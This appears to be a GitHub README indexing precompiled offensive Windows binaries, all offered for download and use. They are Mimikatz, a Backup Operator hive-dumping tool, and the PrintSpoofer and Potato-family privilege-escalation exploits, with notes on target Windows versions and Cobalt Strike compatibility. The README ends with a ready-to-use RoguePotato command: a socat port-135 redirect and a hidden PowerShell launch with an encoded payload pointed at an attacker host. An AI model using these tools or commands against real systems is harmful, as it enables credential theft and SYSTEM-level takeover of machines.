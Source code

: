 # Collection of pre-compiled binaries for different situations.


- #### [BackupOperatorToDA](https://github.com/l4rRyxz/pre-compiles/blob/main/windows/BackupOperatorToDA.exe)
	A tool to abuse the privileges of the group "Backup Operator". Let's you copy SAM, SYSTEM, SECURITY for local extraction.

- #### [Mimikatz v.2.1.1](https://github.com/l4rRyxz/pre-compiles/blob/main/windows/mimikatz_2.1.1.exe)
	Mimikatz compiled in 2.1.1 instead of 2.2.0, which avoids some already encountered issues.

- #### [PrintSpoofer64](https://github.com/l4rRyxz/pre-compiles/blob/main/windows/PrintSpoofer64.exe)
	From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

- #### [JuicyPotato](https://github.com/l4rRyxz/pre-compiles/blob/main/windows/JuicyPotato/)
	A sugared version of RottenPotatoNG, with a bit of juice, i.e. another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM
	The folder also contains a script `GetCLSID.ps1` this may be necessary to gather working CLSID's for the exploitation.
	!!! -> JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.

- #### [SweetPotato](https://github.com/l4rRyxz/pre-compiles/blob/main/windows/SweetPotato.exe)
	https://www.pentestpartners.com/security-blog/sweetpotato-service-to-system/
	- Works on Windows 7 up to the latest version of Windows 10 and Server 2019
	- Compatible with execute-assembly from Cobalt Strike an other C2 projects that support in memory execution of .NET executables
	- Works on 32 bit and 64 bit operating systems.
	- Can be compiled for for .NET 2 and 4 depending on target OS.
	- Automatically attempts the correct exploit to execute.

- #### [RoguePotato](https://github.com/l4rRyxz/pre-compiles/tree/main/windows/RoguePotato)
	https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/
	https://github.com/antonioCoco/RoguePotato/blob/master/demo.png

	Worked on Windows Server 2022

		'''
		sudo socat tcp-listen:135,reuseaddr,fork tcp:$target:9999

		.\RoguePotato.exe -r $attacker -e "powershell.exe -nop -w hidden -Enc JABXAGkAbgAzADIAIAA9ACAAQAAiA"
		'''
